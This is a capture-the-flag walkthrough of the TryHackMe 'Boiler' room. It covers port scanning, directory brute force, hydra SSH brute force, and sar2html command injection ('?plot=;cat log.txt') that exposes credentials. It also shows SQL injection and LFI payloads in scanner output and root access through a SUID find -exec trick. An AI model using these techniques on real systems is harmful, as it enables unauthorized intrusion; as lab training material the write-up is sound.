


THM - Boiler CTF

1. `nmap -T4 -p- -A 10.10.30.252`
	```
	Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-08 17:00 EDT
	Warning: 10.10.30.252 giving up on port because retransmission cap hit (6).
	Nmap scan report for 10.10.30.252
	Host is up (0.11s latency).
	Not shown: 65326 closed ports, 206 filtered ports
	PORT      STATE SERVICE VERSION
	21/tcp    open  ftp     vsftpd 3.0.3
	|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
	| ftp-syst: 
	|   STAT: 
	| FTP server status:
	|      Connected to ::ffff:10.9.53.2
	|      Logged in as ftp
	|      TYPE: ASCII
	|      No session bandwidth limit
	|      Session timeout in seconds is 300
	|      Control connection is plain text
	|      Data connections will be plain text
	|      At session startup, client count was 3
	|      vsFTPd 3.0.3 - secure, fast, stable
	|_End of status
	80/tcp    open  http    Apache httpd 2.4.18 ((Ubuntu))
	| http-robots.txt: 1 disallowed entry 
	|_/
	|_http-server-header: Apache/2.4.18 (Ubuntu)
	|_http-title: Apache2 Ubuntu Default Page: It works
	55007/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   2048 e3:ab:e1:39:2d:95:eb:13:55:16:d6:ce:8d:f9:11:e5 (RSA)
	|   256 ae:de:f2:bb:b7:8a:00:70:20:74:56:76:25:c0:df:38 (ECDSA)
	|_  256 25:25:83:f2:a7:75:8a:a0:46:b2:12:70:04:68:5c:cb (ED25519)
	Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
	
	Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	Nmap done: 1 IP address (1 host up) scanned in 957.42 seconds
	```
	**What is on the highest port?** `SSH`
2. Enumerate HTTP
	1. Go to `http://10.10.30.252` shows default apache page
		* Directory busting with `dirbuster`: `http://10.10.30.252:80`, go faster, and `/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt` password list. Finds the `/icons/` and `/manual/` folders. Not helpful.
	3. Go to `http://10.10.30.252:10000` shows Webmin login page
		* Directory busting with `dirbuster`: `http://10.10.30.252:10000`, go faster, and `/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt` password list found nothing.
		* Attempt to authenticate with default credentials `root:eraadmin` from https://help.eset.com/era_deploy_va/64/en-US/index.html?webmin.htm
		* The default username is `root` and the password is the root linux user password according to https://serverfault.com/questions/51053/how-do-you-access-webmin
		* **What's running on port 10000?** `webmin`
		
3. Webmin
	1. `searchsploit webmin`
		```
		------------------------------------------------------------------------------------------------------------------ ----------------------------------------
		 Exploit Title                                                                                                    |  Path
		                                                                                                                  | (/usr/share/exploitdb/)
		------------------------------------------------------------------------------------------------------------------ ----------------------------------------
		DansGuardian Webmin Module 0.x - 'edit.cgi' Directory Traversal                                                   | exploits/cgi/webapps/23535.txt
		Webmin - Brute Force / Command Execution                                                                          | exploits/multiple/remote/705.pl
		Webmin 0.9x / Usermin 0.9x/1.0 - Access Session ID Spoofing                                                       | exploits/linux/remote/22275.pl
		Webmin 0.x - 'RPC' Privilege Escalation                                                                           | exploits/linux/remote/21765.pl
		Webmin 0.x - Code Input Validation                                                                                | exploits/linux/local/21348.txt
		Webmin 1.5 - Brute Force / Command Execution                                                                      | exploits/multiple/remote/746.pl
		Webmin 1.5 - Web Brute Force (CGI)                                                                                | exploits/multiple/remote/745.pl
		Webmin 1.580 - '/file/show.cgi' Remote Command Execution (Metasploit)                                             | exploits/unix/remote/21851.rb
		Webmin 1.850 - Multiple Vulnerabilities                                                                           | exploits/cgi/webapps/42989.txt
		Webmin 1.900 - Remote Command Execution (Metasploit)                                                              | exploits/cgi/remote/46201.rb
		Webmin 1.910 - 'Package Updates' Remote Command Execution (Metasploit)                                            | exploits/linux/remote/46984.rb
		Webmin 1.920 - Remote Code Execution                                                                              | exploits/linux/webapps/47293.sh
		Webmin 1.920 - Unauthenticated Remote Code Execution (Metasploit)                                                 | exploits/linux/remote/47230.rb
		Webmin 1.x - HTML Email Command Execution                                                                         | exploits/cgi/webapps/24574.txt
		Webmin < 1.290 / Usermin < 1.220 - Arbitrary File Disclosure (PHP)                                                | exploits/multiple/remote/1997.php
		Webmin < 1.290 / Usermin < 1.220 - Arbitrary File Disclosure (Perl)                                               | exploits/multiple/remote/2017.pl
		phpMyWebmin 1.0 - 'target' Remote File Inclusion                                                                  | exploits/php/webapps/2462.txt
		phpMyWebmin 1.0 - 'window.php' Remote File Inclusion                                                              | exploits/php/webapps/2451.txt
		webmin 0.91 - Directory Traversal                                                                                 | exploits/cgi/remote/21183.txt
		------------------------------------------------------------------------------------------------------------------ ----------------------------------------
		Shellcodes: No Result
		```-
	2. `Metasploit
		* Try `exploit/linux/http/webmin_backdoor`
		```
		set lhost 10.9.53.2
		set ssl true
		set rhosts 10.10.30.252
		set srvhost 10.9.53.2
		check
		[*] 10.10.30.252:10000 - The target is not exploitable.
		```
	3. **Can you exploit the service running on that port? (yay/nay answer)** `nay`
4. Enumerate FTP (Anon Login Enabled): `ftp 10.10.30.252`
	1. `ls -la` finds `.info.txt`. `get .info.txt` and `cat .info.txt` shows `Whfg jnagrq gb frr vs lbh svaq vg. Yby. Erzrzore: Rahzrengvba vf gur xrl!`
	2. Decode with [quipquip](https://www.quipqiup.com/) gets `	Just wanted to see if you find it. Lol. Remember: Enumeration is the key!`
	3. **File extension after anon login** `txt`
5. SSH Bruteforce: `sudo hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://10.10.30.252:55007 -t 40 -V` found nothing.
6. Bruteforce `http://10.10.30.252` with gobuster: `gobuster dir -u http://10.10.30.252 -t 100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt` find `/joomla/` directory
	* **What's CMS can you access?** `joomla`
	* It might be benneficial to run both `dirbuster` and `gobuster` on future assessments.
6. Joomla
	1. Get version with metasploit:
		```
		use auxiliary/scanner/http/joomla_version
		set rhosts 10.10.30.252
		set targeturi /joomla
		run
		```
		
		Results:
		```
		[*] Server: Apache/2.4.18 (Ubuntu)
		[+] Joomla version: 3.9.12-dev
		[*] Scanned 1 of 1 hosts (100% complete)
		[*] Auxiliary module execution completed
		```
	2. Search google for `joomla 3.9.12-dev exploit` finds none
	3. Get plugins with metasploit
		```
		use auxiliary/scanner/http/joomla_plugins
		set rhosts 10.10.30.252
		set targeturi /joomla
		run
		```
		
		Results:
		```
		[+] Plugin: /joomla/?1.5.10-x 
		[+] Plugin: /joomla/?1.5.11-x-http_ref 
		[+] Plugin: /joomla/?1.5.11-x-php-s3lf 
		[+] Plugin: /joomla/?1.5.3-path-disclose 
		[+] Plugin: /joomla/?1.5.3-spam 
		[+] Plugin: /joomla/?1.5.8-x 
		[+] Plugin: /joomla/?1.5.9-x 
		[+] Plugin: /joomla/?j1012-fixate-session 
		[+] Plugin: /joomla/administrator/ 
		[+] Plugin: /joomla/administrator/components/ 
		[+] Plugin: /joomla/administrator/components/com_admin/ 
		[+] Plugin: /joomla/administrator/index.php?option=com_djartgallery&task=editItem&cid[]=1'+and+1=1+--+ 
		[+] Plugin: /joomla/administrator/index.php?option=com_searchlog&act=log 
		[+] Plugin: /joomla/components/com_ajax/ 
		[+] Plugin: /joomla/components/com_banners/ 
		[+] Plugin: /joomla/components/com_contact/ 
		[+] Page: /joomla/index.php?option=com_contact
		[+] Plugin: /joomla/components/com_content/ 
		[+] Page: /joomla/index.php?option=com_content
		[+] Plugin: /joomla/components/com_contenthistory/ 
		[+] Plugin: /joomla/components/com_fields/ 
		[+] Plugin: /joomla/components/com_finder/ 
		[+] Page: /joomla/index.php?option=com_finder
		[+] Plugin: /joomla/components/com_mailto/ 
		[+] Plugin: /joomla/components/com_media/ 
		[+] Plugin: /joomla/components/com_newsfeeds/ 
		[+] Page: /joomla/index.php?option=com_newsfeeds
		[+] Plugin: /joomla/components/com_search/ 
		[+] Page: /joomla/index.php?option=com_search
		[+] Plugin: /joomla/components/com_users/ 
		[+] Page: /joomla/index.php?option=com_users
		[+] Plugin: /joomla/components/com_wrapper/ 
		[+] Page: /joomla/index.php?option=com_wrapper
		[+] Plugin: /joomla/index.php?file=..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd&jat3action=gzip&amp;type=css&v=1 
		[+] Vulnerability: Potential LFI
		[+] Plugin: /joomla/index.php?option=com_newsfeeds&view=categories&feedid=-1%20union%20select%201,concat%28username,char%2858%29,password%29,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30%20from%20jos_users-- 
		[+] Page: /joomla/index.php?option=com_newsfeeds&view=categories&feedid=-1%20union%20select%201,concat%28username,char%2858%29,password%29,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30%20from%20jos
		[*] Scanned 1 of 1 hosts (100% complete)
		[*] Auxiliary module execution completed
		```
	4. Attempt to `sqlmap` the `feedid` parameter of  `http://10.10.30.252/joomla/index.php?option=com_newsfeeds&view=categories&feedid=a`: `sqlmap -u '10.10.30.252/joomla/index.php?option=com_newsfeeds&view=categories&feedid=a' -p feedid` fails.
	5. Bruteforce `http://10.10.30.252/joomla` with gobuster: `gobuster dir -u http://10.10.30.252/joomla -t 100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt` finds `/joomla/_files` which contains `VjJodmNITnBaU0JrWVdsemVRbz0K`.
	6. Lets also try the above with dirbuster for recursion. Use url of `http://10.10.30.252:80`, about 100 threads, `/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt` wordlist, and set "Dir to start with" to `/joomla`. Stopping because this would take too long.
	7. Bruteforce `http://10.10.30.252/joomla/_files` with gobuster: `gobuster dir -u http://10.10.30.252/joomla/_files -t 100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt` and `gobuster dir -u http://10.10.30.252/joomla/_files -t 100 -w /usr/share/wordlists/dirb/common.txt`. Both find nothing.
	8. Try bruteforce `/joomla/` with `dirb/common` list: `gobuster dir -u http://10.10.30.252/joomla/ -t 100 -w /usr/share/wordlists/dirb/common.txt` finds `/joomla/_archive` with text `Mnope, nothin to see.` and `/joomla/_test/` with `sar2html`
7. `sar2html`
	1. `searchsploit sar2html` to get `Sar2HTML 3.2.1 - Remote Command Execution | php/webapps/47204.txt`
	2. `cat /usr/share/exploitdb/exploits/php/webapps/47204.txt`:
		```
		In web application you will see index.php?plot url extension.

		http://<ipaddr>/index.php?plot=;<command-here> will execute 
		the command you entered. After command injection press "select # host" then your command's 
		output will appear bottom side of the scroll screen.
		```
	3. Test command injection: 
		* `http://10.10.30.252/joomla/_test/index.php?plot=;ls` and click the first dropdown. Output is in the dropdown.
			

		* The test file looks interesting: `http://10.10.30.252/joomla/_test/index.php?plot=;cat log.txt`
			
			Result: Got credentials for SSH `basterd:superduperp@$$`
			**The interesting file name in the folder?** `log.txt`
8. SSH
	1. `ssh basterd@10.10.30.252 -p 55007` with password `superduperp@$$` is successful.
	2. Switch to tty: `SHELL=/bin/bash script -q /dev/null`
	3. `ls -la` finds `backup.sh` which contains:
		```
		REMOTE=1.2.3.4

		SOURCE=/home/stoner
		TARGET=/usr/local/backup
		
		LOG=/home/stoner/bck.log
		 
		DATE=`date +%y\.%m\.%d\.`
		
		USER=stoner
		#superduperp@$$no1knows
		
		ssh $USER@$REMOTE mkdir $TARGET/$DATE
		
		
		if [ -d "$SOURCE" ]; then
		    for i in `ls $SOURCE | grep 'data'`;do
		             echo "Begining copy of" $i  >> $LOG
		             scp  $SOURCE/$i $USER@$REMOTE:$TARGET/$DATE
		             echo $i "completed" >> $LOG
		                
		                if [ -n `ssh $USER@$REMOTE ls $TARGET/$DATE/$i 2>/dev/null` ];then
		                    rm $SOURCE/$i
		                    echo $i "removed" >> $LOG
		                    echo "####################" >> $LOG
		                                else
		                                        echo "Copy not complete" >> $LOG
		                                        exit 0
		                fi 
		    done
		     
		
		else
		
		    echo "Directory is not present" >> $LOG
		    exit 0
		fi
		```
		Result: Got credentials `stoner:superduperp@$$no1knows`
		**Where was the other users pass stored(no extension, just the name)?** `backup`
	4. `sudo -l`
		```
		User stoner may run the following commands on Vulnerable:
	    (root) NOPASSWD: /NotThisTime/MessinWithYa
		```
	5. `cat /home/stoner/.secret`: `You made it till here, well done.`
		**`user.txt`** is `You made it till here, well done.`
9. Privilege escalate
	1. SUID (Set owner User ID up on execution) is a special type of file permissions given to a file. Normally in Linux/Unix when a program runs, it inherits access permissions from the logged in user. SUID is defined as giving temporary permissions to a user to run a program/file with the permissions of the file owner rather that the user who runs it.
	2. Use the following command to find files whose SUID bit is set: `find / -perm /4000 -type f -exec ls -ld {} \; 2>/dev/null`.
	3. Great SUID Attacks Info: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#suid
	4. In the list of files there is an interesting one, namely the command find itself. The command find has an -exec flag where you can execute commands. Because the command has the SUID of root set, I can execute commands as root. 
	5. **What did you exploit to get the privileged user?** `find`
	6. Add `stoner` to the sudo group: `find . -exec usermod -aG sudo stoner \;` and `su stoner` to reload shell
	7. `sudo -l`
		```
		User stoner may run the following commands on Vulnerable:
	    (ALL : ALL) ALL
	    (root) NOPASSWD: /NotThisTime/MessinWithYa
		```
	8. `sudo -i` to get `root`
	9. `cat /root/root.txt`: `It wasn't that hard, was it?`
		**root.txt:** `It wasn't that hard, was it?`
